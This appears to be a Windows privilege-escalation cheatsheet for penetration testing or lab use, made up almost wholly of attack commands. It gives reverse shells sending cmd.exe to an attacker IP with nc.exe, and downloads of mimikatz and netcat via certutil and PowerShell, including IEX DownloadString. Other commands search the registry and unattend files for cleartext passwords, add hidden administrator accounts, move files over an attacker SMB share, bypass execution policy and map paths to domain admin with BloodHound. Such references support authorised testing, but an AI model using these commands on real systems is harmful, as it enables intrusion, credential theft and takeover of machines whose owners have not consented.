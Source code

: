 Win Privesc Cheatsheet
=====================
work in progress

## Usefull information

- https://gist.github.com/babutzc/f68f5414fc8595ca8f80abbe36d7b946
- https://ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass
- https://github.com/moatn/cheatsheets/blob/master/windowsstuff.md

## Information gathering

### CMD
```
whoami
echo %username%
systeminfo
hostname
net use
net view
net user
net user <username>
net user <username> /domain
net localgroup
set
findstr /C:"<autoElevate>true" 
schtasks /query /fo LIST /v | findstr "tomcat"
```

### Powershell
```
$ExecutionContext.SessionState.LanguageMode
$Env:Path
Get-volume
hostname
get-process
get-service
Get-NetFirewallRule
Get-Childitem
Get-Content
```

### Networking

```
netstat -ano
route print
```

### cleartext passwords?

```
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml

%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

reg query "HKCU\Software\ORL\WinVNC3\Password"

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

## Run as

### Execute commands as a different user
Execute commands as different user when stored credentials are availeble (cmd.exe)
```
runas /user:.\username /savecred 'nc.exe -e cmd.exe 10.10.1.2 1234'
```

Execute commands as different user on powershell.
```
$username = "username"
$password = "password1"
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
$Session    = New-PSSession -Credential $Credential
Invoke-Command -Session $Session  -ScriptBlock { nc.exe -e cmd.exe 10.10.1.2  1234 }
```

### Adding users

Quickly add a user to the system. If admin privs are also acquired, add the user to the admin group. 
```
net user username password /add
net localgroup administrators username /add
```

## Downloading Files

### Kali
```
python3 -m http.server 80
```
### CMD
```
certutil -urlcache -split -f "http://10.10.14.24/mimikatz.exe" mim.exe
certutil.exe -urlcache -split -f "http://10.10.14.24/mimikatz.exe" %TMP%\mim.exe
```

### Powershell
```
powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.14.24/nc.exe','c:\temp\nc.exe')
powershell.exe -c (Start-BitsTransfer -Source "http://10.10.14.17/nc.exe -Destination C:\temp\nc.exe")
powershell.exe wget "http://10.10.14.24/nc.exe" -outfile "c:\temp\nc.exe"
IEX (new-object System.Net.WebClient).DownloadString('http://10.10.14.24/shell.ps1')
wget
curl -O http://10.10.14.24/nc.exe
powershell -c -e {base64} 
```

### SMB

Setup SMB share to copy files

#### kali
(Make sure you use the correct path to impacket)
```
python3 tools/impacket/examples/smbserver.py DAAN /tmp/DAAN
```
#### win
```
net view \\10.10.14.24
dir \\10.10.14.24\DAAN

#from attacker
copy \\10.10.14.24\DAAN\nc.exe
#to attacker
copy nc.exe \\10.10.14.24\DAAN\nc.exe
```

### Mounting shares (CMD)
```
net use Y: \\10.10.10.25\C$ /USER:username "password" /PERSISTENT:YES
net use Y: \\10.10.10.25\Users /USER:username "password" /PERSISTENT:YES
net use Y: \\10.10.10.25\Users /USER:FEEST\username "password" /PERSISTENT:YES
net use Y: \\10.10.10.25\Users /USER:.\username "password" /PERSISTENT:YES
```

## Powersploit

https://github.com/PowerShellMafia/PowerSploit
Documentation: https://powersploit.readthedocs.io/en/latest/

### PowerUp.ps1
Remove lines 1-9 as some mallware programs seem to flag this script because of these lines.

#### When the script doesn't run
Disable Execution Policy:
```
powershell -ep bypass
```
If a script will not run check for AMSI bypassing

#### Running PowerUp.ps1
```
Import-module PowerUp.ps1
. .\PowerUp.ps1

Invoke-AllChecks
```

## Bloodhound
https://github.com/BloodHoundAD/BloodHound

install on Kali
```
sudo apt-install bloodhound
```
start
```
bloodhound (in terminal)
sudo neo4j console
```
"Bolt enabled on 'ipaddress:port' "

"Remote interface available at: 'ipaddress:port"
Go to address and change the password in bolt (default password is neo4j)

On windows:
download sharphound and upload to victim
https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.exe

```
.\SharpHound.exe
```
Creates a zip, download it to Kali and drag it into BloodHound

Enum Bloodhound
- Search users you owned and mark them (rightclick "mark as owned")
- Click on the lines (right), querries > 
	- "shortest path from owned principals"
	- "shortest path to domain admins"
	- "dcsync rights"
